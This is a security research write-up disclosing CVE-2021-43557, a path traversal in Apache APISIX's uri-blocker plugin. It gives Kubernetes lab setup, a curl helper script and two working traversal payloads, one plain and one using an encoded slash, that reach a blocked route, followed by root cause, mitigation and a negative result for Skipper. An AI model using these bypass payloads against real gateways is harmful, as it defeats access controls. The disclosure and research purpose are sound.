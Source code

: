 ```yaml
---
title: "Apache APISIX Path traversal in request_uri variable(CVE-2021-43557)"
author: "Marcin Niemiec"
authorURL: "https://github.com/xvnpw"
authorImageURL: "https://avatars.githubusercontent.com/u/17719543?v=4"
keywords: 
- Apache APISIX
- CVE
- Request_uri
- Security
description: Research report about Apache APISIX Path traversal in request_uri variable(CVE-2021-43557)
tags: [Technology]
---
```


> Research report about Apache APISIX Path traversal in request_uri variable(CVE-2021-43557)

<!--truncate-->

In this article I will present my research on insecure usage of `$request_uri` variable in [Apache APISIX](https://github.com/apache/apisix-ingress-controller/) ingress controller. My work end up in submit of security vulnerability, which was positively confirmed and got CVE-2021-43557\. At the end of article I will mention in short [Skipper](https://github.com/zalando/skipper) which I tested for same problem.

> Apache APISIX is a dynamic, real-time, high-performance API gateway. APISIX provides rich traffic management features such as load balancing, dynamic upstream, canary release, circuit breaking, authentication, observability, and more.

Why `$request_uri` ? This [variable](https://nginx.org/en/docs/http/ngx_http_core_module.html#var_request_uri) is many times used in authentication and authorization plugins. It’s **not normalized**, so giving a possibility to bypass some restrictions.

In Apache APISIX there is no typical functionality of external authentication/authorization. You can write your own plugin, but it’s quite complicated. To prove that APISIX is vulnerable to path-traversal I will use `uri-blocker` plugin. I’m suspecting that other plugins are also vulnerable but this one is easy to use.

## Setting the stage

Install Apache APISIX into Kubernetes. Use Helm Chart with version **0.7.2**:

```shell
helm repo add bitnami https://charts.bitnami.com/bitnami
helm repo update
kubectl create ns ingress-apisix
helm install apisix apisix/apisix \
  --set gateway.type=NodePort \
  --set ingress-controller.enabled=true \
  --namespace ingress-apisix \
  --version 0.7.2
kubectl get service --namespace ingress-apisix
```

In case of problems follow [official guide](https://github.com/apache/apisix-ingress-controller/blob/master/docs/en/latest/deployments/minikube.md).

To create _ingress route_, you need to deploy `ApisixRoute` resource:

```yaml
apiVersion: apisix.apache.org/v2beta1
kind: ApisixRoute
metadata:
  name: public-service-route
spec:
  http:
  - name: public-service-rule
    match:
      hosts:
      - app.test
      paths:
      - /public-service/*
    backends:
        - serviceName: public-service
          servicePort: 8080
    plugins:
      - name: proxy-rewrite
        enable: true
        config:
          regex_uri: ["/public-service/(.*)", "/$1"]
  - name: protected-service-rule
    match:
      hosts:
      - app.test
      paths:
      - /protected-service/*
    backends:
        - serviceName: protected-service
          servicePort: 8080
    plugins:
      - name: uri-blocker
        enable: true
        config:
          block_rules: ["^/protected-service(/?).*"]
          case_insensitive: true
      - name: proxy-rewrite
        enable: true
        config:
          regex_uri: ["/protected-service/(.*)", "/$1"]
```

Let’s dive deep into it:

- It creates routes for `public-service` and `private-service`
- There is `proxy-rewrite` turned on to remove prefixes
- There is `uri-blocker` plugin configured for `protected-service`. It can look like mistake but this plugin it about to block any requests starting with `/protected-service`

## Exploitation

I’m using Apache APISIX in version **2.10.0**.

Reaching out to Apache APISIX routes in minikube is quite inconvenient: `kubectl exec -it -n ${namespace of Apache APISIX} ${Pod name of Apache APISIX} -- curl --path-as-is http://127.0.0.1:9080/public-service/public -H 'Host: app.test'`. To ease my pain I will write small script that will work as template:

```shell
#/bin/bash

kubectl exec -it -n ingress-apisix apisix-dc9d99d76-vl5lh -- curl --path-as-is http://127.0.0.1:9080$1 -H 'Host: app.test'
```

In your case replace `apisix-dc9d99d76-vl5lh` with name of actual Apache APISIX pod.

Let’s start with validation if routes and plugins are working as expected:

```shell
$ ./apisix_request.sh "/public-service/public"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
{"data":"public data"}
```

```shell
$ ./apisix_request.sh "/protected-service/protected"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
<hr><center>openresty</center>
</body>
</html>
```

Yep. `public-service` is available and `protected-service` is blocked by plugin.

Now let’s test payloads:

```shell
$ ./apisix_request.sh "/public-service/../protected-service/protected"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
{"data":"protected data"}
```

and second one:

```shell
$ ./apisix_request.sh "/public-service/..%2Fprotected-service/protected"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
{"data":"protected data"}
```

As you can see in both cases I was able to bypass uri restrictions.

### Root cause

`uri-blocker` plugin is using `ctx.var.request_uri` variable in logic of making blocking decision. You can check it in [code](https://github.com/apache/apisix/blob/11e7824cee0e4ab0145ea7189d991464ade3682a/apisix/plugins/uri-blocker.lua#L98):

![Cause](https://static.apiseven.com/202108/1637634166887-e3805291-5b00-4b7b-9936-0490266f4ed8.png)

### Impact

- Attacker can bypass access control restrictions and perform successful access to routes that shouldn’t be able to;
- Developers of custom plugins have no knowledge that `ngx.var.request_uri` variable is untrusted.

Search for usage of `var.request_uri` gave me a hint that maybe [authz-keycloak plugin](https://github.com/apache/apisix/blob/master/docs/en/latest/plugins/authz-keycloak.md) is affected. You can see [this code](https://github.com/apache/apisix/blob/a3d42e66f60673e408cab2e2ceedc58aee450776/apisix/plugins/authz-keycloak.lua#L578), it looks really nasty. If there is no normalization on keycloak side, then there is high potential for vulnerablity.

### Mitigation

In case of custom plugins, I suggest to do path normalization before using `ngx.var.request_uri` variable. There are also two other variables, high probably normalized, to check `ctx.var.upstream_uri` and `ctx.var.uri`.

## Skipper

Skipper is another ingress controller that I have investigated. It’s not easy to install it in kubernetes, because deployment guide and helm charts are outdated. Luckily I have found issue page where developer was describing how to install it. This ingress gives possibility to implement external authentication based on [webhook filter](https://opensource.zalando.com/skipper/reference/filters/#webhook):

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: my-ingress
  annotations:
    zalando.org/skipper-filter: |
            modPath("^/.*/", "/") -> setRequestHeader("X-Auth-Request-Redirect", "${request.path}") -> webhook("http://auth-service.default.svc.cluster.local:8080/verify")
```

To add some interesting headers that could help in access control decision, you need to do it manually with `setRequestHeader` filter. There is template available to inject variable by `${}`. Sadly (for attackers) `${request.path}` is having normalized path. I see in code that developers are not using _easily_ `RequestURI` or `originalRequest`.

I wasn’t able to exploit path traversal in this case. Skipper remains safe.

## Summary

Apache APISIX is vulnerable for path traversal. It’s not affecting any external authentication, but plugins that are using `ctx.var.request_uri` variable.

Whole code of this example is here [https://github.com/xvnpw/k8s-CVE-2021-43557-poc](https://github.com/xvnpw/k8s-CVE-2021-43557-poc).
